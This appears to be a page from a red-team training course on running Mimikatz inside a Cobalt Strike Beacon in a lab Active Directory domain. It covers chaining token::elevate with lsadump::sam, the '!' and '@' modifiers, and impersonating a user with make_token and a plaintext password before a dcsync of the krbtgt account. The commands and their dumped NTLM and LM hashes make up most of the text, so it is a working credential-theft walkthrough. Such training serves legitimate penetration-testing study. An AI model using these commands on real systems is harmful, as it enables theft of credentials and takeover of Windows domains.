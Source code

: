 obalt Strike has a built-in version of Mimikatz that we can use to extract various credential types.  However, there are some differences with how it behaves in Beacon compared to the console version.  Each time you execute Mimikatz in Beacon, it does so in a new temporary process which is then destroyed.  This means you can't run two "related" commands, such as:
```
beacon> mimikatz token::elevate
beacon> mimikatz lsadump::sam
```
  

Since CS 4.8, you can chain multiple commands together by separating them with a semi-colon.
```
beacon> mimikatz token::elevate ; lsadump::sam

Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

552	{0;000003e7} 1 D 28330     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;000d4499} 2 F 3234168   	DEV\bfarmer	S-1-5-21-569305411-121244042-2357301523-1104	(15g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 3295086   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)
Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a
Local SID : S-1-5-21-2281971671-4135076198-2136761646

SAMKey : b0664279732686cfbb4b788c078fea82

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
    lm  - 0: 91b6e660bcac036ae7ab67a3d383bc82
    ntlm- 0: fc525c9683e8fe067095ba2ddc971889
```
  

Beacon also has its own command convention using the `!` and `@` symbols as "modifiers".

The `!` elevates Beacon to SYSTEM before running the given command, which is useful in cases where you're running in high-integrity but need to impersonate SYSTEM.  In most cases, `!` is a direct replacement for `token::elevate`. For example:
```
beacon> mimikatz !lsadump::sam
```
  

The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.  This is also compatible with other impersonation primitives such as `make_token` and `steal_token`.  For example:
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```